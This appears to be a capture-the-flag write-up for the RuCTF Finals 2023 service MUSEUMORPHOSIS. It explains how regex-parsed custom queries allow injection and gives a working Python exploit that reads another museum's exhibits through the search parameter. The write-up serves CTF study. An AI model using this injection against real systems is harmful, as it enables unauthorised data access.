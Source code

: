 # RuCTF Finals 2023 | MUSEUMORPHOSIS

## Description

The service was named by ChatGPT :^) \
It provides a service to create your own museum and store exhibits in it

## Execution flow

Code of program using self-written database/sql driver, which wrapped over SQL queries.
For Example - this custom query exec `query` in database with id `db_id`:
```
QUERY ( <query> ) AT DATABASE ( <db_id> )
```

Parsing of custom queries realized by bad [regular expressions](/services/museumorphosis/pkg/fsql/queries/query/query.go), which can lead to injection

Note, that one of the queries in service is:
```
QUERY ( SELECT * FROM exhibits WHERE title LIKE '%<user_input>%' ) AT DATABASE (<db>)
```
We can exploit it this way:
```python
import requests

def main():
    api_url = f"http://{IP}:{PORT}/api"
    museum_id, exhibit_id = ...

    hacker_token = requests.post(
        f"{api_url}/register",
        json={"name": "cool_haцker", "password": "123"}
    ).json()["token"]

    injection_search = f"' AND id = '{exhibit_id}') AT DATABASE ({museum_id})"
    # also can extract all someone else exhibits

    resp = requests.get(
        f"{api_url}/museum/exhibits?search={injection_search}",
        headers={"token": hacker_token},
    ).json()
    print(resp["exhibits"][0]["metadata"])


if __name__ == '__main__':
    main()
```
